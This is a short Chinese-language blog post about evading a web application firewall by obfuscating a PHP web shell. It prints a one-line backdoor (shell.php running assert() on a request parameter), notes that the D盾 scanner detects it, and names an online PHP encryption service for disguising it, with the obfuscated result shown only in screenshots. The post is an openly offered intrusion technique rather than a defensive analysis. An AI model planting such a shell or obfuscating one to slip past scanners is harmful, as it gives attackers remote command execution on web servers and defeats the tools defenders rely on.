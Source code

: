 ```yaml
---
title: "PHP 加密 Bypass WAF"
date: 2018-03-19T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


利用国内的 php 混淆加密绕过 waf

<!--more-->

原始代码

```
<?php
// shell.php
assert($_REQUEST['cmd']);
?>
```

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459418.jpg)

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459420.jpg)

D盾 4级

enphp.djunny.com

在线加密

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459422.jpg)

注意混淆选择字母 php 版本自行修改

加密后代码

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459424.jpg)

shell_encode.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459426.jpg)